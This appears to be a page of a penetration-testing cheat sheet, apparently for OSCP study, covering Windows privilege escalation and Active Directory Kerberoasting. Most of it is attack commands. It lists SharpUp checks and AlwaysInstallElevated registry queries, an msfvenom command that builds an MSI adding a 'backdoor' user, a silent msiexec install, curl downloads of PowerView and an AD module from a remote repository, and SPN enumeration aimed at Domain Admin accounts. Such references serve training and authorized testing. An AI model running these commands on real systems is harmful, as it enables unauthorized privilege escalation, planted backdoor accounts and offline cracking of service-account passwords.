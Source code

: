 ```
.\SharpUp.exe ModifiableServiceBinaries
.\SharpUp.exe ModifiableServiceRegistryKeys
.\SharpUp.exe ModifiableServices
.\SharpUp.exe ProcessDLLHijack
.\SharpUp.exe RegistryAutoLogons
.\SharpUp.exe RegistryAutoruns
.\SharpUp.exe TokenPrivileges
.\SharpUp.exe UnattendedInstallFiles
.\SharpUp.exe UnquotedServicePath
```


## TECHNIQUES
##### ALWAYS ELEVATED(1)
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```
```
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```
# ATTACK - ACTIVE DIRECTORY
## KERBEROASTING
Kerber roasting a technique in which the passwords of service accounts are cracked. Kerber roasting is especially efficient if user accounts are used as service accounts. A TGS ticket can be requested for this user, with the TGS encrypted with the NTLM hash of the user's plaintext password. If the service account is a user account that has been created by the administrator, there is a greater chance that this ticket can be cracked, and therefore the password will be retrieved for the service. This TGS ticket can be cracked offline.

##### KERBEROASTING - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/Microsoft.ActiveDirectory.Management.dll -Outfile Microsoft.ActiveDirectory.Management.dll
import-module .\Microsoft.ActiveDirectory.Management.dll
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1  -Outfile PowerView.ps1
import-module .\PowerView.ps1
```
##### KERBEROASTING - FIND SPN
PROCURE POR CONTAS COM PERMISSÕES ADMINISTRATIVAS, EM GRUPOS COM PERMISSÕES ADMINISTRATIVAS
```
Get-ADUSer -Filter { ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName | select SamAccountName, ServicePrincipalName
$FormatEnumerationLimit=-1
Get-ADComputer -Filter { ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName | select SamAccountName, ServicePrincipalName | Out-String -Width 4096
```
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}
```
##### KERBEROASTING - LIST ALL SPN
```
$MySearch = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$MySearch.filter = "(servicePrincipalName=*)"
```